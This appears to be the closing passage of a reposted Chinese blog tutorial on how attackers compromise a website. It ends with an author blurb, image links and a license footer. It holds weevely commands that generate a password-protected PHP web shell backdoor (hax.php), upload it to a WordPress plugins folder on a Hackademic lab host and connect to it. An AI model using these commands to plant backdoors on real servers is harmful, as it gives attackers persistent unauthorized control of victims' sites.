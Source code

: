 root@bt:/pentest/backdoors/web/weevely\#./main.py -g -o hax.php -p koko

接下来上传到服务器之后来使用它

root@bt:/pentest/backdoors/web/weevely\#./main.py -t -uhttp://hack-test.com/Hackademic\_RTB1/wp-content/plugins/hax.php -pkoko

测试我们的hax.php后门

完成，撒花！

![IT外包网络维护专家告诉你，黑客是如何攻破一个网站？][IT 18]

整理/夏立城 上海蓝盟创始人兼CEO，复旦校友创新创业俱乐部副会长，致力于用IT外包网络维护服务赋能企业客户发展，助力其创新、迭代和进化。


[IT]: static/resources/crawler/JAVR-IABU-FZ6V.jpg
[IT 1]: http://p9.pstatp.com/large/pgc-image/15295655345973f39af02a7
[IT 2]: static/resources/crawler/RN6Z-FBUZ-FYJY.jpg
[IT 3]: static/resources/crawler/ANVE-NFIZ-6ZZE.jpg
[IT 4]: static/resources/crawler/JFFR-NNQY-IIBM.jpg
[IT 5]: static/resources/crawler/U2UA-RY3E-RUQI.jpg
[IT 6]: static/resources/crawler/UFUF-32YQ-7ZMU.jpg
[IT 7]: static/resources/crawler/NFEB-JQQY-JEFJ.jpg
[IT 8]: static/resources/crawler/MFFE-UM7R-BVYQ.jpg
[IT 9]: static/resources/crawler/NYAB-QQVI-B2IA.jpg
[IT 10]: static/resources/crawler/JIMN-ZJZM-FMIB.jpg
[IT 11]: static/resources/crawler/RJZI-N3QM-M3YU.jpg
[IT 12]: static/resources/crawler/RIMF-VQJ3-YUMR.jpg
[IT 13]: static/resources/crawler/QFMY-BMBA-AMU3.jpg
[IT 14]: static/resources/crawler/ZARV-Z2IU-AZIA.jpg
[IT 15]: static/resources/crawler/JQEV-QZYF-ZR7N.jpg
[IT 16]: static/resources/crawler/BNEZ-F2NV-J6Z2.jpg
[IT 17]: static/resources/crawler/3YRJ-EVEE-BVAQ.jpg
[IT 18]: static/resources/crawler/6VJQ-N32A-UBY2.jpg
 *  **原文作者：** 夏掰创业
 *  **原文链接：** https://www.toutiao.com/item/6569434365762208270/
 *  **版权声明：** 本博客所有文章除特别声明外，均采用 [CC BY-NC-SA 4.0][] 许可协议。转载请注明出处。
